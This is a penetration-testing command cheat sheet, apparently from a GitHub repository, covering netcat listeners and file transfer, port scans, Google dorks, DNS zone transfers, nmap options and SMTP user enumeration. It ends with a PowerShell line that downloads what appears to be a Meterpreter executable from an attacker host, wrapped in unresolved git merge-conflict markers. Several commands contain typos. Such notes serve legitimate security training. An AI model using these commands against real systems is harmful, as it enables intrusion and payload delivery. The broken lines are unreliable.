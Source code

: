 #----- Bash -----#

## For loop
for ip in $(cat file.txt); do echo $ip; done

## Create directory structure for each IP in file.txt
for ip in $(cat file.txt); do mkdir -p "$ip"/{penetration,notes,pillage,remote-enum,root-in-10-steps-or-less}; done

## Parse file data
cut -d'.' -f1 filename.txt |sort -u



# Wordlist locations
/usr/share 


#----- Linux Commands -----#
### Process Running
netstat -antp | grep sshd

### Start HTTP Service (/var/www)
service apache2 start

### Service Persistence on reboot 
update-rc.d ssh enable
update-rc.d apache2 enable


#----- NetCat -----#
### Connect using netcat
nc -nv IPaddress port

### Netcat listner
nv -nlvp 4444

## Netcat transfer

### Receiver
nc -nlvp 4444 > incoming.txt

### Sender
nc -nv IPaddress port </path/of/file.txt

### SIMPLE TCP & UDP PORT SCAN
nc -nvv -w 1 -z IPADDRESS START_PORT-END_PORT
nc -unvv -w 1 -z IPADDRESS START_PORT-END_PORT


#----- NCat (Supports encrypted tunnel) -----#
### Listener
ncat -nlvp IPAddress 4444

### Connect
ncat -v IPAddress 4444 --ssl

#----- Google Hacking CMD -----#
### Search specific site
Site:"microsoft.com"

### Exclude results from www.microsoft.com
Site:"microsoft.com" -site:"www.microsoft.com

### Search specific file type
site:"microsoft.com: filetype:ppt

intitle:"VNC viewer for java"

inurl:"/specific/url/"

#----- DNS ENUMBERATION -----#
### name server
host -t ns domain.com

### mail server
host -t mx domain.com

### Forward lookup (domain to IP)
for subdomain in $(list.txt);do nslookup $subdomain.DOMAIN.com|grep "Address: " | cut -d " " -f1,4;done

### Reverse DNS lookup (IP range to doamin)
for ip in (seq 1 255); do host 10.10.10.$ip |grep "DOMAIN" |cut -d" " -f1,5; done

### ZONE TRANSFERS (Get all domains in DNS)
host -l ns DOMAIN.COM

## BUILT TOOLS
DNSRECON, DNSENUM


#----- PORT SCANNING -----#
SYN SCANNING (half scan) 

### NMAP SCRIPTS
/usr/share/nmap/scripts

### PING SWEEP
nmap -sn 192.168.1.1/24

### NMAP GOOD ARGUMENTS
-oG = Grepable output

--reason: Display the reason a port is in a particular state

--top--ports (nmap -sT --top-ports 20 IPAddress -oG filename.txt)

-sV = Banner grabbing

-O = OS fingerprinting

-A: Enable OS detection, version detection, script scanning, and traceroute

--open = only display results of open ports

### Identify smb or netbios services
nbtscan 192.168.1.0/24

<<<<<<< HEAD
<<<<<<< HEAD
for user in $(cat users.txt); do nc -nv IPADDRESS 25; VRFY $user; done
=======
#----- Transferring Files from Linux to Windows -----#
### Python Webserver 
python -m SimpleHTTPServer

### Transfer to Windows with no broswer
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\name\Desktop\met8888.exe')"

>>>>>>> 13e2e1d7c5bf48c2cc040d1732e2b8118184a462
=======
>>>>>>> parent of fef0fc4... day 3

